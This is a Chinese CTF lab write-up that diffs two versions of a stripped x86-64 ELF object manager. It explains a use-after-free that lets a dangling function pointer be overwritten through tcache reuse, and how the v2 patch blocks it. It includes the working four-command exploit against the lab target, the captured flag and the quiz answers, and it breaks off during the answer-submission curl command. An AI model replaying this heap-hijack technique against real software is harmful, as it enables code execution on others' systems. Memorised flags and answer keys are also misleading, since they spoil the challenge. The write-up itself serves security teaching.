

# 7-3 系统层漏洞利用与逆向分析 · 安全补丁对比分析-G3（obj-mgr：UAF 悬空函数指针与「释放端 + 使用端」协同补丁）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-安全补丁对比分析-G3（sectionID `6715`，课程内 number 28，题目内部编号 `C035-G3-F`） |
| 分类 | Pwn / 逆向分析 / 补丁对比（Linux ELF64 堆漏洞 Use-After-Free + 二进制差分） |
| 题目描述 | 题面提供两个 ELF 附件：`challenge_v1` 是同一程序的早期版本、`challenge_v2` 是后续修复版本，靶机运行的是 `challenge_v1`；要求对比两个版本、找出漏洞点并拿到 flag。靶机只映射 22（SSH）与 **70**，而 **70 就是题目服务本身**（裸 TCP、无 HTTP，**没有单独的 flag 兑换服务**）。 |

Flag 题（questionID=9403）题干原文：

> * 本题提供两个附件：`challenge_v1` 是同一程序的早期版本，`challenge_v2` 是后续修复版本；靶机运行的是早期版本 `challenge_v1`。请对比两个版本，找出漏洞点并拿到 flag。

Note：本题与同批的 7-1（`C035-G1`）、7-2（`C035-G2`）同属 `C035` 系列，但**差分线索完全不同**：

- **7-1**：v2 去掉了 `gets`（导入表 15 → 14 项）⇒ `ret2win` 栈溢出；
- **7-2**：v2 新增 `fputs`/`fwrite` 导入 ⇒ v1 把用户输入直接当格式串；
- **7-3（本题）**：两个版本的**导入表逐字节完全相同**，没有任何「新增/删除 API」这类一眼可见的线索，差异纯粹在 `.text`/`.rodata` 的指令级，而且**只有两处**、合计 53 B：`delete` 补 `used[id]=0`、`use` 补 `if(!used[id]){puts("invalid");return;}`。修的是 **Use-After-Free（悬空函数指针）**。

还有一个必须说明的点：本批任务书最初给出的线索是「v1 缺少 `id` 的 0..7 边界检查、v2 有」。该判断**已被靶机实测推翻**（边界检查两版都有），本文按更正后的结论写，更正过程与误判来源见步骤 3.5 与步骤 4。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6715`（课程内 number 28，章节名 `C035-G3-F`「系统层漏洞利用与逆向分析-安全补丁对比分析-G3」）；平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（9377 `C035-G3-S1`、9379 `C035-G3-S2`、9381 `C035-G3-S3`，`questionType=2`）+ 1 道多选（9383 `C035-G3-M`，`questionType=3`）+ 1 道 Flag 填空（9403 `C035-G3-F`，`questionType=1`、`checkMode=1`），共 5 题 |
| 判分机会 | 题面接口返回 `isResubmit=false`、`endOrNot=true`、`answersTotal=5`；提交前 `answerHistory` 的 `answerQuestion` 为空数组（`logs/10-answerhistory-before.json`）⇒ 本题此前没有提交过，本次为**首次判分**，5 题 `answerTimes` 均为 1，一次通过 |
| 靶机实例 | envID `1209`（实验环境名 `C035-G3-F`），podID `p8zppwgfrg021x42msle733zc`，容器名 `s-149925`，image `t-11637/c035-g3-f:2026`；交付时 `state=Running`，`targetPorts=[22,70]`，`timeout=1792148986`（页面显示过期时间 2026-10-16 19:09:46） |
| 端口映射（实测 `portInfos`，截图 08） | `172.17.0.13:14676 → 22`（SSH）、**`172.17.0.13:14677 → 70`** |
| 题目服务 | `172.17.0.13:14677`，**裸 TCP、非 HTTP**；**70 就是题目服务本身**。容器里没有第二个「flag 兑换服务」，也**没有 token 环节**——二进制里的 `win` 函数自行 `open("/flag")` + `read` + `write(1,…)` + `_exit(0)`，利用成功即由服务**直接打印 flag**（两版二进制里都能看到 `/flag` 与兜底的 `no /flag` 字符串） |
| 服务 banner | `obj-mgr v1 -- commands: create <id>, delete <id>, alloc_data <id> <hex>, use <id>, quit`（每条命令一行；`quit` 直接关连接） |
| 附件 | `challenge_v1.elf`：14608 B（题面附件表显示 14.27 K），MD5 **`e77a008129e80333325a9c78862dc87c`**<br>`challenge_v2.elf`：14608 B（14.27 K），MD5 **`9e65761a25c19156018590d885c53177`**<br>（同目录另有平台附带的占位文件 `challenge.exe`，49 B 的 JSON，与本题无关） |
| 附件属性 | 两者均 **ELF 64-bit LSB executable, x86-64、非 PIE（`e_type=2` EXEC）、`machine=62`、stripped、dynamically linked**（interpreter `/lib64/ld-linux-x86-64.so.2`，BuildID 分别为 `8df0b445…` / `99149c79…`）；两文件**长度完全相同**（14608 B）、节布局相同，差别只有 `.text`（+53 B）与 `.rodata`（+8 B） |
| 章节实验环境 | 本题按 AGENTS.md 记录的 `lab/vm` 接口返回 `environment: null`，实例统一在「我的虚拟机」页管理，因此改用 `environments` / `instances` 接口与页面核对（截图 08） |
| 本机工具 | macOS 上**没有** pwntools / pefile / Ghidra / readelf / checksec / qemu-user，也无法直接执行 ELF；用 Apple LLVM `objdump -d -M intel` + Python 3 原生 `socket` / `struct` 完成全部静态与动态验证，另用本机 Docker 的 `linux/amd64`（Debian glibc 2.41）跑双版本对照；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | **9377=B、9379=D、9381=A、9383=A+B+D**（提交前已独立判定并落盘 `.local/process/7-3-answers-rationale.md`，与 Lead 独立判定逐项一致）；`GET /api/student/get/answerHistory?sectionID=6715&contestMode=0` 返回 **5/5 `isCorrect=true`**（含 9403 flag）。按惯例本文不展开选择题解析 |

## 解题过程

### 1. 静态侦察：导入表完全相同，差异只能靠函数级比对（截图 02）

先核对附件与基本属性（原始输出 `logs/15-section-headers.txt`）：

```console
$ md5 challenge_v1.elf challenge_v2.elf
MD5 (challenge_v1.elf) = e77a008129e80333325a9c78862dc87c
MD5 (challenge_v2.elf) = 9e65761a25c19156018590d885c53177

$ file challenge_v1.elf challenge_v2.elf
challenge_v1.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
                  interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8df0b445…, for GNU/Linux 3.2.0, stripped
challenge_v2.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
                  interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=99149c79…, for GNU/Linux 3.2.0, stripped
```

**第一步先看导入表 / `dynsym`，而不是直接 diff 整个文件的字节**，理由有两条：其一，换用了什么库函数往往一眼能定位补丁意图（同批 7-1 少了 `gets`、7-2 多了 `fputs` 就是这类线索）；其二，两个版本基址相同（均非 PIE）时，`.text` 任何一处变长都会让后续代码整体平移，按字节或按行 diff 必然产生错位噪声。

本题的实测结果是：**导入表没有任何差异**（脚本 `static_evidence_73.py`，输出 `logs/14-dynsym-relaplt-v{1,2}.txt`）：

```text
.dynsym ：18 项（含索引 0 的空符号），符号名/绑定/shndx 一一对应 ⇒ 无新增、无删除
.rela.plt：13 项，GOT 地址 0x404018…0x404078 与符号索引逐项相同 ⇒ .plt / .plt.sec 完全一样
导入函数集合（排序）：__gmon_start__, __isoc99_sscanf, __libc_start_main, _exit, close,
                      fgets, free, malloc, open, printf, puts, read, setvbuf, strncmp, write
```

所以本题**不能**走「导入表线索」这条路，必须落到指令级 / 函数级比对。

节表实测（`logs/15-section-headers.txt`，截图 02 第 ② 节）：

```text
节名           v1 addr     v1 size    v2 size(v1-diff)
.text          0x4011d0    1348       1401     (+53)   <== 变化
.rodata        0x402000    259        267      (+8)    <== 变化
（其余 27 个节的 addr / size 完全相同；两文件长度都是 14608）
```

因为 `.text` 大了 53 字节，`.text` 内后续函数**整体平移**：`alloc_data` `0x401492 → 0x4014a2`、`use` `0x401525 → 0x401535`、`main` `0x401570 → 0x4015a5`（`win` 与 `create` 相对靠前，未受影响）。这一点是后面所有比对的前提，也是步骤 3.5 里那个误判的直接来源。

读反汇编还要用到 `.plt.sec` 地址映射（截图 02 第 ① 节下半）：

| `.plt.sec` | 函数 | `.plt.sec` | 函数 | `.plt.sec` | 函数 |
| --- | --- | --- | --- | --- | --- |
| `0x401100` | `free` | `0x401150` | `printf` | `0x4011a0` | `__isoc99_sscanf` |
| `0x401110` | `strncmp` | `0x401160` | `close` | `0x4011b0` | `setvbuf` |
| `0x401120` | `_exit` | `0x401170` | `read` | `0x4011c0` | `open` |
| `0x401130` | `puts` | `0x401180` | `fgets` |  |  |
| `0x401140` | `write` | `0x401190` | `malloc` |  |  |


### 2. 连靶机摸清命令语义与对象模型（截图 01）

服务是裸 TCP，用自写的 `objmgr.py`（Python 原生 `socket`，逐条发送并原样 tee 回显）连上去：

```console
$ python3 .local/process/7-3-scripts/objmgr.py \
    --cmds "create 0" "use 0" "create 1" "use 1" "delete 1" "quit"
BANNER >> b'obj-mgr v1 -- commands: create <id>, delete <id>, alloc_data <id> <hex>, use <id>, quit\n'
SEND   << b'create 0\n'    RECV >> b'created obj 0\n'
SEND   << b'use 0\n'       RECV >> b'object ok\n'
SEND   << b'create 1\n'    RECV >> b'created obj 1\n'
SEND   << b'use 1\n'       RECV >> b'object ok\n'
SEND   << b'delete 1\n'    RECV >> b'deleted obj 1\n'
SEND   << b'quit\n'        RECV >> <EOF/closed>
```

结合反汇编可以把对象模型完整复原（`.bss` 从 `0x4040a0` 起 168 B）：

| 符号 | 地址 | 说明 |
| --- | --- | --- |
| `stdout` / `stdin` | `0x4040a0` / `0x4040b0` | 导入的 `FILE*` |
| （`completed` 标志） | `0x4040b8` | `__do_global_dtors_aux` 使用 |
| `objs[8]` | **`0x4040c0`** | 对象指针数组：`create` 写入、`delete` 释放、`use` 解引用 |
| `data[8]` | **`0x404100`** | `alloc_data` 写入 `malloc(8)` 的结果 |
| `used[8]` | **`0x404140`** | 存活标志字节：`create` 置 1；**v1 的 `delete` 不清**，v2 清 0 |

四个命令的语义（`create` 按 `0x401379` 起的反汇编核对）：

```text
create <id>           0..7 边界检查 → objs[id] = malloc(8)
                      块头写入默认回调 0x40135f（该函数体就是 puts("object ok") 后 ret）
                      used[id] = 1；打印 created obj %d
                      （两版都不检查 id 是否已被占用，重复 create 会泄漏旧块）
delete <id>           0..7 边界检查 + used[id] 存活检查 → free(objs[id])
                      v1：之后什么都不做（★ 漏洞点）；v2：补 used[id]=0
                      打印 deleted obj %d
alloc_data <id> <hex> 0..7 边界检查 → data[id] = malloc(8)；*data[id] = 用户给的 8 字节
                      打印 alloc_data %d = 0x%llx
use <id>              0..7 边界检查 → mov rax,[objs+id*8]; mov rax,[rax]; call rax
                      v1：没有 used[id] 存活校验（★ 漏洞点）；v2：补 if(!used[id]) 分支
quit                  strncmp(buf,"quit",4) 命中 → 关连接
```

命令分发在 `main`（v1 `0x401570` / v2 `0x4015a5`，逐指令相同）：`fgets(buf,0x80,stdin)` 之后依次 `sscanf(buf,"create %d")` → `"delete %d"` → `"alloc_data %d %llx"` → `"use %d"` → `strncmp(buf,"quit",4)` → 否则 `puts("unknown command")`。

`win` 函数（两版**同址、逐指令相同**，`0x4012b6`，41 条指令）是本题的「得分点」：

```text
4012b6: endbr64; push rbp; mov rbp,rsp; sub rsp,0x110
        fd = open("/flag", 0)              ; 0x402008
        n  = (fd >= 0) ? read(fd, rbp-0x110, 0x100) : 0
        if (n > 0) write(1, buf, n)        ; 否则 write(1, "no /flag\n", 9)
        if (fd >= 0) close(fd)
        _exit(0)                           ; ★ 不返回，直接终止进程
```

**`win` 自开 `/flag` 并 write 到 stdout 后 `_exit(0)`，所以利用成功由服务直接打印 flag——没有 token、没有兑换服务。**


### 3. v1 → v2 补丁对比（本题核心产出）

#### 3.1 导入表 / PLT：完全相同

见步骤 1：`.dynsym` 18 项、`.rela.plt` 13 项逐项相同，`.plt`（`0x401020`，224 B）与 `.plt.sec`（`0x401100`，208 B）两版完全一致。⇒ 本题不能靠「多了哪个 API」定位，**只能做指令级 / 函数级比对**。

#### 3.2 逐函数比对：12 个函数里只有 2 个不同

直接用朴素 `diff a.asm b.asm` 会被 `.text` 平移带偏（见 3.5），正确做法是**按 `endbr64` 切函数边界、去掉地址列与 rip 注释、把立即数/地址归一为 `IMM`** 之后再比（`static_evidence_73.py` → `logs/16-function-level-compare.txt`）：

```text
#    v1 起始      v2 起始     v1 指令  v2 指令  结论
0    0x4011d0    0x4011d0    14      14      相同   _start
1    0x401200    0x401200    32      32      相同   __do_global_dtors_aux 等
2    0x401280    0x401280    13      13      相同
3    0x4012b0    0x4012b0    2       2       相同
4    0x4012b6    0x4012b6    41      41      相同   ★ win()
5    0x40135f    0x40135f    9       9       相同   默认回调（puts("object ok")）
6    0x401379    0x401379    40      40      相同   create(id)
7    0x401417    0x401417    34      38      ★ 不同  delete(id) ← 补丁点 1
8    0x401492    0x4014a2    38      38      相同   alloc_data(id,val)（仅平移）
9    0x401525    0x401535    22      32      ★ 不同  use(id)      ← 补丁点 2
10   0x401570    0x4015a5    97      97      相同   main()（仅平移）
11   0x401714    0x40174c    4       4       相同
```

#### 3.3 真实差异只有两处（指令级）

**补丁点 1：`delete(id)` `@0x401417`（两版同址），v2 在 `free` 之后新增 `used[id] = 0`（4 条指令 / +16 B）**

`logs/17-v1-delete.txt` 与 `logs/18-v2-delete.txt` 的关键段落对照：

```text
v1（34 条）                                  v2（38 条）
401472: call 0x401100 <free>                 401472: call 0x401100 <free>
401477: mov  eax, [rbp-0x4]    ; eax = id     401477: mov  eax, [rbp-0x4]
                                             40147a: cdqe
                                             40147c: lea  rdx, [rip+0x2cbd]   # 0x404140 = &used[0]
                                             401483: mov  byte ptr [rax+rdx], 0x0   ; ★ used[id] = 0
                                             401487: mov  eax, [rbp-0x4]
40147a: mov  esi, eax                        40148a: mov  esi, eax
40147c: lea  rax, [rip+0xbb6]  # "deleted…"  40148c: lea  rax, [rip+0xba6]  # "deleted…"
401483: mov  rdi, rax                        401493: mov  rdi, rax
401486: mov  eax, 0x0                        401496: mov  eax, 0x0
40148b: call 0x401150 <printf>               40149b: call 0x401150 <printf>
401490: leave; 401491: ret                   4014a0: leave; 4014a1: ret
```

⇒ 释放语义从「只归还内存」升级为「**归还内存并失效槽位**」。注意两版的 `delete` **本来就有** `0..7` 边界检查与 `used[id]` 存活检查（`0x401426` 起 `cmp edi,0; js bad_id; cmp edi,7; jg bad_id; movzx eax,[used+id]; test al,al; jne ok`），所以 `delete <未 create 的 id>` 在两版都是 `bad id`。

**补丁点 2：`use(id)` v1 `@0x401525` / v2 `@0x401535`（平移 +0x10），v2 在取函数指针之前新增 `if(!used[id]){puts("invalid");return;}`（10 条指令 / +37 B）**

`logs/19-v1-use.txt` 与 `logs/20-v2-use.txt`：

```text
v1（22 条）：有边界检查，但取指针前不做任何存活校验
401551: mov  eax,[rbp-0x4]
401554: cdqe
401556: lea  rdx,[8*rax]
40155e: lea  rax,[rip+0x2b5b]   # 0x4040c0 = &objs[0]
401565: mov  rax,[rdx+rax]      ; rax = objs[id]（可能是悬空指针）
401569: mov  rax,[rax]          ; rax = *(objs[id]) ← 块头 8 字节，完全由 alloc_data 控制
40156c: call rax                ; ★ 控制流劫持点

v2（32 条）：在同样的位置插入存活校验
401561: mov  eax,[rbp-0x4]
401564: cdqe
401566: lea  rdx,[rip+0x2bd3]   # 0x404140 = &used[0]
40156d: movzx eax, byte ptr [rax+rdx]    ; al = used[id]
401571: test al, al
401573: jne  0x401586                    ; used[id]!=0 → 正常调用
401575: lea  rax,[rip+0xae5]   # 0x402061 = "invalid"
40157c: mov  rdi, rax
40157f: call 0x401130 <puts>             ; puts("invalid")
401584: jmp  0x4015a3                    ; ★ 直接返回，不取指针、不调用
401586: …（原路径：lea rdx,[8*rax] → mov rax,[objs+…] → mov rax,[rax] → call rax）
```

**`.rodata` 的配套变化**：v2 新增字符串 `"invalid"` `@0x402061`；v1 该处是 8 字节 `0x00` 填充（`objdump -s -j .rodata` 实测：`0x402060` 起 v1 为 `00 00 00 00 00 00 00 00`，v2 为 `00 69 6e 76 61 6c 69 64 00`）。

**账目自洽**：16 B（`delete`）+ 37 B（`use`）= **53 B** = `.text` 大小增量（1348 → 1401）；`.rodata` 的 `+8` 就是 `"invalid\0"` 与其后的对齐填充。

![补丁对比（2/2）：`delete`（v1 未失效化 vs v2 补 `used[id]=0`）与 `use`（v1 直接 `call *(objs[id])` vs v2 先校验存活）的 v1-vs-v2 反汇编对照，以及「漏洞点 → 补丁点」对照表；真实命令回显的渲染稿（非终端实拍）](screenshots/03-补丁对比-漏洞点与补丁点.png)

#### 3.4 漏洞点、补丁点，以及补丁为何能挡住原利用

| 项目 | 内容 |
| --- | --- |
| **漏洞类型** | **Use-After-Free（悬空函数指针）**，可升级为任意地址调用；并伴随 **double free** |
| **漏洞点 1（释放端）** | `delete(id) @0x401417`：`free(objs[id])` 之后**既不写 `objs[id]=NULL`，也不清 `used[id]`**，直接打印 `deleted obj %d` 返回 ⇒ `objs[id]` 成为悬空指针，且槽位仍被标记为「存活」 |
| **漏洞点 2（使用端）** | `use(id) @0x401525`：边界检查通过后**没有任何存活校验**，直接 `mov rax,[objs+id*8]` → `mov rax,[rax]` → `call rax` ⇒ 执行悬空块头部那 8 字节 |
| **利用原语** | `alloc_data(id,hex)` 的 `malloc(8)` 与 `create` 的 `objs[id]` 是**同一 size class**（chunk size 0x20），glibc tcache 的 **LIFO** 让这次 `malloc` **精确返回刚 free 的同一块**；随后 `*data[id] = hex` 就把**用户可控的 8 字节**写进悬空块头部，等价于覆写 `objs[id]` 指向的函数指针。非 PIE ⇒ `win` 地址固定 `0x4012b6`，可直接写死 |
| **补丁点 1** | v2 `delete(id)` 在 `free` 之后新增 `used[id] = 0`（+16 B）——把「归还内存」升级为「归还内存 + 失效槽位」 |
| **补丁点 2** | v2 `use(id)` 在调用前新增 `if (!used[id]) { puts("invalid"); return; }`（+37 B，配套 `.rodata` 新增 `"invalid"`）——补上「使用前校验存活」 |
| **为何能挡住原利用** | 复现路径 `create 0 → delete 0 → alloc_data 0 4012b6 → use 0`：第 2 步之后 `used[0]==0`，第 4 步 `use` 在**取函数指针之前**就命中 `used[0]==0` 分支，打印 `invalid` 并 `leave;ret`。**内存里 `0x4012b6` 已经被写进去了，但再没有任何路径去解引用并调用它**——漏洞链在「使用端」被切断（本机 Docker amd64 实测 v2 输出 `invalid`，不崩溃、不打印 flag，见步骤 7） |
| **顺带修掉的问题** | 因为 `used[id]` 被清 0，第二次 `delete` 会走 `bad id` 分支，**double free 也被一并修掉**（本机实测 v1 `free(): double free detected in tcache 2` → Aborted，v2 回 `bad id`） |
| **为何必须两处互补** | 只补补丁点 1（清标志、`use` 不查）⇒ 攻击路径**原样可用**；只补补丁点 2（`use` 查标志、`delete` 不清）⇒ `used[id]` 恒为 1，校验形同虚设，路径**同样可用**。这正是 9381 考「多函数协同补丁」的实证 |
| **未修的残留面** | `alloc_data` 在 v2 里与 v1 **逐指令相同**：既不校验存活、也不写 `used[]`，仍会对任意合法 id 分配 8 字节并写入任意值，只是再没有 `call` 路径消费它；`objs[id]` 在 v2 的 `delete` 里**仍未置 NULL**（悬空指针依旧存在，只被 `used[]` 标志挡住）；`create` 两版都不检查 id 是否已被占用，重复 `create` 会泄漏旧块 |

#### 3.5 ★ 对任务书初判线索的更正：「v1 缺 id 边界检查」不成立

任务书 §4 曾写「v1 在 `0x40149a` 起的函数里缺少 `id` 的 `0..7` 边界检查而 v2 有」。实测**不成立**，更正如下：

1. **两版都有边界检查，而且四个命令都有**：`create @0x40137d`、`delete @0x401426`、`alloc_data @v1 0x4014a5 / v2 0x4014b5`、`use @v1 0x401534 / v2 0x401544`，模式一律 `cmp edi,0; js bad_id; cmp edi,7; jle ok`。靶机实测：`use 8` / `use -1` / `delete 8` / `delete -1` / `alloc_data 8 4141` 全部 `bad id`；本机 v2 同样全部 `bad id`。
2. **误判来源**：`0x40149a` 落在 v1 的 `alloc_data`（起始 `0x401492`，`sub rsp,0x10` 在 `0x40149a`）里，而 v2 因 `.text` 大了 53 字节，`alloc_data` 平移到 `0x4014a2`、`use` 平移到 `0x401535`。**朴素文本 diff 会把 v1 的 `alloc_data` 与 v2 的 `use` 对齐**：前者没有 `used[]` 检查、后者有，于是看起来像「v1 少了一次边界检查」。
3. 本次改用「按 `endbr64` 切函数边界 + 归一化指令文本」重做比对，得到的是 3.2/3.3 那两处真实差异。**真正的补丁形状是「释放端置位 + 使用端校验标志」，不是「补边界检查」。**

### 4. 边界与存活探测：用靶机实测复核静态结论（截图 01、04）

静态比对之后，专门跑了一组只读式探测来验证「边界检查」与「存活检查」这两件事（`logs/02-bounds-and-liveness.txt`，截图 01 第 ③ 节、截图 04 第 ③ 节）：

```console
$ python3 .local/process/7-3-scripts/objmgr.py \
    --cmds "use 8" "use -1" "delete 8" "delete -1" "delete 3" "alloc_data 8 4141" \
           "alloc_data 3 41424344" "use 3" "quit"
SEND << b'use 8\n'                  RECV >> b'bad id\n'
SEND << b'use -1\n'                 RECV >> b'bad id\n'
SEND << b'delete 8\n'               RECV >> b'bad id\n'
SEND << b'delete -1\n'              RECV >> b'bad id\n'
SEND << b'delete 3\n'               RECV >> b'bad id\n'      # 从未 create ⇒ 存活检查拦住
SEND << b'alloc_data 8 4141\n'      RECV >> b'bad id\n'
SEND << b'alloc_data 3 41424344\n'  RECV >> b'alloc_data 3 = 0x41424344\n'
SEND << b'use 3\n'                  RECV >> b'Segmentation fault (core dumped)\n'
```

三条结论：

1. **v1 的 `use` / `delete` / `alloc_data` 都有 `0 <= id <= 7` 边界检查**（`use 8`、`use -1`、`delete 8`、`alloc_data 8` 一律 `bad id`）⇒ 任务书里「v1 缺边界检查」的线索被实测推翻；
2. **`delete` 的存活检查也在**（`delete 3` 从未 create ⇒ `bad id`），所以「未 create 直接 use 会段错误」不能归因于缺检查，而是 `objs[3]` 本来就是 `NULL`；
3. `alloc_data 3 41424344` 对**从未 create** 的 id 也成功（它只查边界，不查存活）——这恰好是「`alloc_data` 与 `objs[]` 相互独立」的证据，也是步骤 5 里 F4 那条失败对照的由来。

### 5. 失败对照四条：把因果先钉死（截图 04）

每条对照独立开一条 TCP 连接（`logs/03-*`、`logs/02-*`）：

| # | 用例 | 命令 | 实测回显 | 说明 |
| --- | --- | --- | --- | --- |
| F1 | 悬空调用、不复用 | `create 0` / `delete 0` / `use 0` | `Segmentation fault (core dumped)` | `free` 进 tcache 后块头被写成 `next`（首个入链时为 `NULL`）⇒ `call 0` 崩溃。证明 v1 的 `use` 确实无存活校验 |
| F2 | 非法目标地址 | `create 0` / `delete 0` / `alloc_data 0 41414141` / `use 0` | `alloc_data 0 = 0x41414141`，随后 `Segmentation fault` | 证明**被调用指针完全由 `alloc_data` 的 hex 参数控制**（`0x41414141` 不可执行） |
| F3 | 越界与未 create | `use 8` / `delete 8` / `alloc_data 8 4141` 等 | 六次 `bad id` | ★ v1 也有 `0..7` 边界检查与 `delete` 的存活检查 |
| F4 | 未 create 直接 `alloc_data`+`use` | `alloc_data 3 41424344` / `use 3` | `alloc_data 3 = 0x41424344`，随后段错误 | `alloc_data` 不设 `objs[]`，`objs[3]` 仍为 `NULL` ⇒ `call NULL` |

F1 与 F2 的分工很重要：F1 说明「光有悬空指针还不够，必须把块取回来改写头部」；F2 说明「改写头部的内容就是我们给的那个 8 字节」。两者合起来，正式利用的 4 条命令就顺理成章了。


### 6. 正式利用：服务直接打印 flag（截图 05）

```console
$ python3 .local/process/7-3-scripts/objmgr.py --cmds "create 0" "delete 0" "alloc_data 0 4012b6" "use 0" "quit"
BANNER >> b'obj-mgr v1 -- commands: create <id>, delete <id>, alloc_data <id> <hex>, use <id>, quit\n'
SEND   << b'create 0\n'             RECV >> b'created obj 0\n'
SEND   << b'delete 0\n'             RECV >> b'deleted obj 0\n'
SEND   << b'alloc_data 0 4012b6\n'  RECV >> b'alloc_data 0 = 0x4012b6\n'
SEND   << b'use 0\n'                RECV >> b'vmc{pteX4l15paSXjJ4H0BVV9eRhPk9Rc8ZV}\n'
SEND   << b'quit\n'                 RECV >> <EOF/closed>      # win() 末尾是 _exit(0)，直接断连
```

换 id 复现两次（`create 2 / delete 2 / alloc_data 2 4012b6 / use 2`）flag 完全一致（`logs/05-EXPLOIT-repro.txt`）。

4 条命令的原理逐行对应：

```text
create 0             objs[0] = malloc(8) ;  *objs[0] = &puts_ok(0x40135f) ;  used[0] = 1
delete 0             free(objs[0])      ;  objs[0] / used[0] 都没被清（★ v1 漏洞点）
alloc_data 0 4012b6  data[0] = malloc(8) ;  tcache LIFO 把刚 free 的同一块还回来 ⇒ data[0] == objs[0]
                     *data[0] = 0x4012b6 ; 用户可控 8 字节写进悬空块头部
use 0                call *(objs[0])    ;  == call 0x4012b6 → win() → 打印 /flag → _exit(0)
```

**没有任何 token 或兑换步骤：flag 由题目服务在 `use 0` 那一行直接打印出来。**


### 7. 补丁有效性实证：同一 payload 打 v1 出 flag、打 v2 回 `invalid`（截图 05b）

macOS 跑不了 ELF，但本机 Docker 有 `linux/amd64`，可以作**补丁有效性的直接证据**（原始输出 `logs/06-local-v1-vs-v2-patchproof.txt`，容器内 `uname -m` = `x86_64`、`ldd --version` = Debian GLIBC 2.41）：

```console
$ docker run --rm --platform linux/amd64 -v "$PWD/.local/process/7-3-scripts/files:/w:ro" -w /tmp \
    python:3.12-slim bash -c 'cp /w/challenge_v*.elf /tmp/ && chmod +x /tmp/challenge_v*.elf &&
    echo "vmc{LOCAL_DUMMY_FLAG_v1_only}" > /flag &&
    for v in 1 2; do printf "create 0\ndelete 0\nalloc_data 0 4012b6\nuse 0\nquit\n" | /tmp/challenge_v$v.elf; done'
=== challenge_v1.elf ===
obj-mgr v1 -- commands: create <id>, delete <id>, alloc_data <id> <hex>, use <id>, quit
created obj 0
deleted obj 0
alloc_data 0 = 0x4012b6
vmc{LOCAL_DUMMY_FLAG_v1_only}     ← v1：利用成功（本地用占位 /flag 验证通路，非真实 flag）
[exit=0]
=== challenge_v2.elf ===
obj-mgr v1 -- commands: create <id>, delete <id>, alloc_data <id> <hex>, use <id>, quit
created obj 0
deleted obj 0
alloc_data 0 = 0x4012b6
invalid                           ← v2：被补丁拦住，函数指针根本没被取用
[exit=0]
```

同一 harness 跑 6 组用例的完整对照矩阵（`logs/07-local-case-matrix.txt`，截图 04 第 ④ 节）：

| 用例 | 命令 | v1 结果 | v2 结果 |
| --- | --- | --- | --- |
| A 主利用 | `create 0/delete 0/alloc_data 0 4012b6/use 0` | **打印 `/flag`**（exit 0） | `invalid`（exit 0，未调用） |
| B 悬空调用、不复用 | `create 1/delete 1/use 1` | Segmentation fault（exit 139） | `invalid`（exit 0） |
| C 双重释放 | `create 2/delete 2/delete 2` | `free(): double free detected in tcache 2` → Aborted（exit 134） | `bad id`（exit 0，**双重释放被顺带修掉**） |
| D 越界 id | `use 8 / delete 8 / alloc_data 8 4141` | 三次 `bad id` | 三次 `bad id`（两版都检查边界） |
| E 非法目标地址 | `create 3/delete 3/alloc_data 3 41414141/use 3` | Segmentation fault（exit 139） | `invalid`（exit 0） |
| F 未 create 就 `alloc_data`+`use` | `alloc_data 4 4012b6/use 4` | Segmentation fault（exit 139） | `invalid`（exit 0） |

这组矩阵把补丁的**作用边界**也一并测出来了：A/E/F 是「`use` 端被拦住」，B 亦同；C 是「`delete` 端置位后连 double free 都进不去」；D 则说明**边界检查两版一样**，补丁与它无关。注意 A 行在矩阵日志里用的占位串是 `vmc{LOCAL_DUMMY_FLAG}`，而上面那次双版本连跑的日志（`logs/06`）用的是 `vmc{LOCAL_DUMMY_FLAG_v1_only}`——两次本地 `/flag` 的占位内容不同，属同一实验的两次运行，均非题目真实 flag。


### 8. 提交答案与平台判分（截图 06、07），实例与端口映射核对（截图 08）

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段，每个字段的值是**外层包了 questionID 的 JSON 字符串**）：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6715' \
  -F 'answers={"questionID": 9377, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9379, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9381, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9383, "answer": "{\"answer\": [\"A\",\"B\",\"D\"], \"num\": 3}"}' \
  -F 'answers={"questionID": 9403, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{pteX4l15paSXjJ4H0BVV9eRhPk9Rc8ZV}\"]}"}' \
